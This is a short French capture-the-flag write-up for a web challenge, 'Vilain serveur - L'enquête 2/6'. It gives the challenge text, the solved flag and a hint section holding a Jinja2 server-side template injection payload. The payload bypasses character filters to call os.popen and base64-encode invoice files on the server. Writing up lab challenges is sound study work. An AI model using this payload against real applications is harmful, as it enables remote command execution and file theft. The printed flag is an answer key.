 # Vilain serveur - L'enquête 2/6

| Enquête (Web) |
|---------------|
| Moyen 🙂      | 
| Validé ✅      |

## Description

- 22 Octobre 2024

Eh beh Michel, ça c'est du bon boulot !

Bon, pour le moment son site nous apprend pas grand chose.

Essaie de voir si tu peux pas trouver des documents intéressants dessus.

- Auteur : NozZy

## Flag
||`CYBN{c0Mm4nd3_pLu707_1nQu13t4N73}`||

## Pistes
SSTI dans URL param, base64 Invoice dans documents
```py
{%with%20a=request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fimport\x5f\x5f%27)(%27os%27)|attr(%27popen%27)(%27base64%20/home/texas/Documents/Invoice*%27)|attr(%27read%27)()%}{%print(a)%}{%endwith%}
```
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#without-several-chars
